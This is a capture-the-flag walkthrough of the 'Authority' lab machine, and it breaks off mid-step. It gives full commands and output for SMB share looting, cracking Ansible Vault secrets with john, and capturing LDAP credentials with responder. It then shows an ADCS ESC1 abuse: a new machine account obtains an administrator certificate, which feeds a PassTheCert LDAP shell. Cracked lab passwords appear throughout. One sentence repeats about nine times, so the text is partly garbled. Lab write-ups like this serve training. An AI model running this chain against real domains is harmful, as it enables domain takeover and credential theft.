## Entry

Lets start with netexec and create our /etc/hosts file

```bash
➜  authority nxc smb 10.10.11.222
SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False) 
➜  authority sudo nxc smb 10.10.11.222 --generate-hosts-file /etc/hosts
SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False) 
➜  authority cat /etc/hosts 
[SNIP]
10.10.11.222     AUTHORITY.authority.htb authority.htb AUTHORITY
```

and lets see if we have Guest access on smb shares.

```bash
➜  authority nxc smb 10.10.11.222 -u '' -p ''
SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.222    445    AUTHORITY        [+] authority.htb\: 
➜  authority nxc smb 10.10.11.222 -u 'Guest' -p '' --shares
SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.222    445    AUTHORITY        [+] authority.htb\Guest: 
SMB         10.10.11.222    445    AUTHORITY        [*] Enumerated shares
SMB         10.10.11.222    445    AUTHORITY        Share           Permissions     Remark
SMB         10.10.11.222    445    AUTHORITY        -----           -----------     ------
SMB         10.10.11.222    445    AUTHORITY        ADMIN$                          Remote Admin
SMB         10.10.11.222    445    AUTHORITY        C$                              Default share
SMB         10.10.11.222    445    AUTHORITY        Department Shares                 
SMB         10.10.11.222    445    AUTHORITY        Development     READ            
SMB         10.10.11.222    445    AUTHORITY        IPC$            READ            Remote IPC
SMB         10.10.11.222    445    AUTHORITY        NETLOGON                        Logon server share 
SMB         10.10.11.222    445    AUTHORITY        SYSVOL                          Logon server share 
➜  authority nxc smb 10.10.11.222 -u 'Guest' -p '' -M spider_plus
```



and we can grab all files with

```bash
➜  Development nxc smb 10.10.11.222 -u 'Guest' -p '' -M spider_plus -o DOWNLOAD_FLAG=true
SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.222    445    AUTHORITY        [+] authority.htb\Guest: 
SPIDER_PLUS 10.10.11.222    445    AUTHORITY        [*] Started module spidering_plus with the following options:
SPIDER_PLUS 10.10.11.222    445    AUTHORITY        [*]  DOWNLOAD_FLAG: True
SPIDER_PLUS 10.10.11.222    445    AUTHORITY        [*]     STATS_FLAG: True
SPIDER_PLUS 10.10.11.222    445    AUTHORITY        [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_PLUS 10.10.11.222    445    AUTHORITY        [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_PLUS 10.10.11.222    445    AUTHORITY        [*]  MAX_FILE_SIZE: 50 KB
SPIDER_PLUS 10.10.11.222    445    AUTHORITY        [*]  OUTPUT_FOLDER: /home/elliot/.nxc/modules/nxc_spider_plus
SMB         10.10.11.222    445    AUTHORITY        [*] Enumerated shares
SMB         10.10.11.222    445    AUTHORITY        Share           Permissions     Remark
SMB         10.10.11.222    445    AUTHORITY        -----           -----------     ------
SMB         10.10.11.222    445    AUTHORITY        ADMIN$                          Remote Admin
SMB         10.10.11.222    445    AUTHORITY        C$                              Default share
SMB         10.10.11.222    445    AUTHORITY        Department Shares                 
SMB         10.10.11.222    445    AUTHORITY        Development     READ            
SMB         10.10.11.222    445    AUTHORITY        IPC$            READ            Remote IPC
SMB         10.10.11.222    445    AUTHORITY        NETLOGON                        Logon server share 
SMB         10.10.11.222    445    AUTHORITY        SYSVOL                          Logon server share 
SPIDER_PLUS 10.10.11.222    445    AUTHORITY        [+] Saved share-file metadata to "/home/elliot/.nxc/modules/nxc_spider_plus/10.10.11.222.json".
SPIDER_PLUS 10.10.11.222    445    AUTHORITY        [*] SMB Shares:           7 (ADMIN$, C$, Department Shares, Development, IPC$, NETLOGON, SYSVOL)
SPIDER_PLUS 10.10.11.222    445    AUTHORITY        [*] SMB Readable Shares:  2 (Development, IPC$)
SPIDER_PLUS 10.10.11.222    445    AUTHORITY        [*] SMB Filtered Shares:  1
SPIDER_PLUS 10.10.11.222    445    AUTHORITY        [*] Total folders found:  27
SPIDER_PLUS 10.10.11.222    445    AUTHORITY        [*] Total files found:    52
SPIDER_PLUS 10.10.11.222    445    AUTHORITY        [*] File size average:    1.5 KB
SPIDER_PLUS 10.10.11.222    445    AUTHORITY        [*] File size min:        4 B
SPIDER_PLUS 10.10.11.222    445    AUTHORITY        [*] File size max:        11.1 KB
SPIDER_PLUS 10.10.11.222    445    AUTHORITY        [*] File unique exts:     6 (yml, ini, txt, cfg, j2, md)
SPIDER_PLUS 10.10.11.222    445    AUTHORITY        [*] Downloads successful: 52
SPIDER_PLUS 10.10.11.222    445    AUTHORITY        [+] All files processed successfully.
```

and lets grab

```bash
➜  Development cp -r /home/elliot/.nxc/modules/nxc_spider_plus/10.10.11.222/Development .
➜  Development ls
Development
```

okey i will check fastly something.



okey we got something really different. and after i opened with VSCode.



What is the **PWM** lets search and understand.



okey lets do nmap scan now!!!!

```bash
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp   open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-07-10 15:59:55Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8443/tcp open  ssl/http      syn-ack ttl 127 Apache Tomcat (language: en)
```

and yeah we have that one!!! lets try to decyrpt hashes and we can login at **PWM** i think.

```bash
➜  authority cat ldap_admin_password_vault     
$ANSIBLE_VAULT;1.1;AES256
633038313035343032663564623737313935613133633130383761663365366662326264616536303437333035366235613437373733316635313530326639330a643034623530623439616136363563346462373361643564383830346234623235313163336231353831346562636632666539383333343238343230333633350a6466643965656330373334316261633065313363363266653164306135663764
➜  authority cat pwm_admin_login_vault 
$ANSIBLE_VAULT;1.1;AES256
326665343864353665376531366637316331386162643232303835663339663466623131613262396134353663663462373265633832356663356239383039640a346431373431666433343434366139356536343763336662346134663965343430306561653964643235643733346162626134393430336334326263326364380a6530343137333266393234336261303438346635383264396362323065313438
➜  authority cat pwm_admin_password_vault 
$ANSIBLE_VAULT;1.1;AES256
313563383439633230633734353632613235633932356333653561346162616664333932633737363335616263326464633832376261306131303337653964350a363663623132353136346631396662386564323238303933393362313736373035356136366465616536373866346138623166383535303930356637306461350a3164666630373030376537613235653433386539346465336633653630356531
```

The values in the file above are protected with [Ansible Vault](https://docs.ansible.com/ansible/2.8/user_guide/vault.html#variable-level-encryption). The Jumbo John The Ripper repo has a [script](https://github.com/openwall/john/blob/bleeding-jumbo/run/ansible2john.py), `ansible2john.py`.
 The script takes in a file with two lines, the first being the header 
and the second being the hex-encoded values above. I’ll format the three
 protected values into files:

```bash
➜  authority ansible2john ldap_admin_password_vault pwm_admin_login_vault pwm_admin_password_vault > vault_hashes
➜  authority cat vault_hashes 
ldap_admin_password_vault:$ansible$0*0*c08105402f5db77195a13c1087af3e6fb2bdae60473056b5a477731f51502f93*dfd9eec07341bac0e13c62fe1d0a5f7d*d04b50b49aa665c4db73ad5d8804b4b2511c3b15814ebcf2fe98334284203635
pwm_admin_login_vault:$ansible$0*0*2fe48d56e7e16f71c18abd22085f39f4fb11a2b9a456cf4b72ec825fc5b9809d*e041732f9243ba0484f582d9cb20e148*4d1741fd34446a95e647c3fb4a4f9e4400eae9dd25d734abba49403c42bc2cd8
pwm_admin_password_vault:$ansible$0*0*15c849c20c74562a25c925c3e5a4abafd392c77635abc2ddc827ba0a1037e9d5*1dff07007e7a25e438e94de3f3e605e1*66cb125164f19fb8ed22809393b1767055a66deae678f4a8b1f8550905f70da5
```

and boom!!!

```bash
➜  authority john vault_hashes --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (ansible, Ansible Vault [PBKDF2-SHA256 HMAC-256 256/256 AVX2 8x])
Cost 1 (iteration count) is 10000 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!@#$%^&*         (pwm_admin_password_vault)     
!@#$%^&*         (pwm_admin_login_vault)     
!@#$%^&*         (ldap_admin_password_vault)  
```

now we can decyrpt passwords.

```bash
➜  authority cat pwm_admin_login_vault | ansible-vault decrypt
Vault password: 
Decryption successful
svc_pwm%                                                                                                                                                                                     ➜  authority cat ldap_admin_password_vault | ansible-vault decrypt 
Vault password: 
Decryption successful
DevT3st@123%                                                                                                                                                                                                                                                                                                                                           ➜  authority cat pwm_admin_password_vault | ansible-vault decrypt 
Vault password: 
Decryption successful
pWm_@dm!N_!2
```

nice!!!! i used that `pWm_@dm!N_!2` password and login



we can add our ip and 389 port and listen the server here.



Lets start responder

```bash
sudo responder -I tun0 -wd
```



and bammm!!!!!



```bash
[LDAP] Cleartext Client   : 10.10.11.222
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[LDAP] Cleartext Password : lDaP_1n_th3_cle4r!
[*] Skipping previously captured cleartext password for CN=,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
```

OKEY nice!!!! lets check AD users first.



There is only 1 user??? so its probably about ADCS im %100 suer lets check.

## ESC1 on Domain Computers

```bash
➜  authority nxc ldap AUTHORITY.authority.htb -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -M adcs
LDAP        10.10.11.222    389    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 (name:AUTHORITY) (domain:authority.htb)
LDAP        10.10.11.222    389    AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r! 
ADCS        10.10.11.222    389    AUTHORITY        [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.10.11.222    389    AUTHORITY        Found PKI Enrollment Server: authority.authority.htb
ADCS        10.10.11.222    389    AUTHORITY        Found CN: AUTHORITY-CA
```

and yeah off course.

```bash
➜  authority certipy-ad find -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -target authority.htb -text -stdout -vulnerable -dc-ip 10.10.11.222
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 37 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Finding issuance policies
[*] Found 21 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'AUTHORITY-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'AUTHORITY-CA'
[*] Checking web enrollment for CA 'AUTHORITY-CA' @ 'authority.authority.htb'
[!] Error checking web enrollment: [Errno 111] Connection refused
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : AUTHORITY-CA
    DNS Name                            : authority.authority.htb
    Certificate Subject                 : CN=AUTHORITY-CA, DC=authority, DC=htb
    Certificate Serial Number           : 2C4E1F3CA46BBDAF42A1DDE3EC33A6B4
    Certificate Validity Start          : 2023-04-24 01:46:26+00:00
    Certificate Validity End            : 2123-04-24 01:56:25+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : AUTHORITY.HTB\Administrators
      Access Rights
        ManageCa                        : AUTHORITY.HTB\Administrators
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        ManageCertificates              : AUTHORITY.HTB\Administrators
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Enroll                          : AUTHORITY.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : CorpVPN
    Display Name                        : Corp VPN
    Certificate Authorities             : AUTHORITY-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
                                          AutoEnrollmentCheckUserDsCertificate
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
                                          Document Signing
                                          IP security IKE intermediate
                                          IP security use
                                          KDC Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 20 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2023-03-24T23:48:09+00:00
    Template Last Modified              : 2023-03-24T23:48:11+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : AUTHORITY.HTB\Domain Computers
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : AUTHORITY.HTB\Administrator
        Full Control Principals         : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Write Owner Principals          : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Write Dacl Principals           : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Write Property Enroll           : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
    [+] User Enrollable Principals      : AUTHORITY.HTB\Domain Computers
    [!] Vulnerabilities
      ESC1 
```

and its ESC1 but its not!!!!!!!!!! default oness we have to understand what ESC1 can do

In this case, it’s `Domain Computers` who can enroll with this template, not `Domain Users`.



In this case, it’s `Domain Computers` who can enroll with this template, not `Domain Users`.

In this case, it’s `Domain Computers` who can enroll with this template, not `Domain Users`.

In this case, it’s `Domain Computers` who can enroll with this template, not `Domain Users`.

In this case, it’s `Domain Computers` who can enroll with this template, not `Domain Users`.

In this case, it’s `Domain Computers` who can enroll with this template, not `Domain Users`.

In this case, it’s `Domain Computers` who can enroll with this template, not `Domain Users`.

In this case, it’s `Domain Computers` who can enroll with this template, not `Domain Users`.

In this case, it’s `Domain Computers` who can enroll with this template, not `Domain Users`.

So we need Computer Account lets see if we can create.

### Create computer account



Yess!! we can.

```bash
➜  authority addcomputer.py authority.htb/svc_ldap:'lDaP_1n_th3_cle4r!' -computer-name irem -computer-pass Winter2025! -dc-host AUTHORITY.authority.htb
/usr/local/bin/addcomputer.py:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('impacket==0.13.0.dev0+20250523.184829.f2f2b367', 'addcomputer.py')
Impacket v0.13.0.dev0+20250523.184829.f2f2b367 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account irem$ with password Winter2025!.
```

now lets try ESC1 with computer account.!!!

```bash
➜  authority certipy-ad req -username irem$ -password 'Winter2025!' -ca AUTHORITY-CA -target authority.htb -template CorpVPN -upn administrator@authority.htb
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: authority.htb.
[!] Use -debug to print a stacktrace
[*] Requesting certificate via RPC
[*] Request ID is 4
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@authority.htb'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

and bam!!!!!!!!!!!!!!1



we cannot but we can use pfx file for interactive LDAP shell.

**PassTheCert -> TGT [Path 1]**

This happens “when a domain controller doesn’t have a certificate installed for smart cards”, according to [this post](https://posts.specterops.io/certificates-and-pwnage-and-patches-oh-my-8ae0f4304c1d) from Specterops. Specifically, it happens because “the DC isn’t properly set up for PKINIT and authentication will fail”.

The same post suggests an alternative path:

> If you run into a situation where you can enroll in a vulnerable 
certificate template but the resulting certificate fails for Kerberos 
authentication, you can try authenticating to LDAP via SChannel using 
something like PassTheCert. You will only have LDAP access, but this should be enough if you have a certificate stating you’re a domain admin.
> 

[This repo](https://github.com/AlmondOffSec/PassTheCert) has C# and Python tools to do a PassTheCert attack. It also offers an `ldap-shell` option that allows me to run a limited set of commands on the DC. I’ll clone it, and then run `passthecert.py` with the following options:

- `action ldap-shell` - provide a limited set of commands
- `crt administrator.crt -key administrator.key` - the certificate and key files
- `domain authority.htb -dc-ip 10.10.11.222` - target info

It connects

```bash
➜  authority python PassTheCert/Python/passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222
Impacket v0.13.0.dev0+20250523.184829.f2f2b367 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands

# 

# help

 add_computer computer [password] [nospns] - Adds a new computer to the domain with the specified password. If nospns is specified, computer will be created with only a single necessary HOST SPN. Requires LDAPS.
 rename_computer current_name new_name - Sets the SAMAccountName attribute on a computer object to a new value.
 add_user new_user [parent] - Creates a new user.
 add_user_to_group user group - Adds a user to a group.
 change_password user [password] - Attempt to change a given user's password. Requires LDAPS.
 clear_rbcd target - Clear the resource based constrained delegation configuration information.
 disable_account user - Disable the user's account.
 enable_account user - Enable the user's account.
 dump - Dumps the domain.
 search query [attributes,] - Search users and groups by name, distinguishedName and sAMAccountName.
 get_user_groups user - Retrieves all groups this user is a member of.
 get_group_users group - Retrieves all members of a group.
 get_laps_password computer - Retrieves the LAPS passwords associated with a given computer (sAMAccountName).
 grant_control target grantee - Grant full control of a given target object (sAMAccountName) to the grantee (sAMAccountName).
 set_dontreqpreauth user true/false - Set the don't require pre-authentication flag to true or false.
 set_rbcd target grantee - Grant the grantee (sAMAccountName) the ability to perform RBCD to the target (sAMAccountName).
 start_tls - Send a StartTLS command to upgrade from LDAP to LDAPS. Use this to bypass channel binding for operations necessitating an encrypted channel.
 write_gpo_dacl user gpoSID - Write a full control ACE to the gpo for the given user. The gpoSID must be entered surrounding by {}.
 whoami - get connected user
 dirsync - Dirsync requested attributes
 exit - Terminates this session.
```

The one that works is `add_user_to_group`:

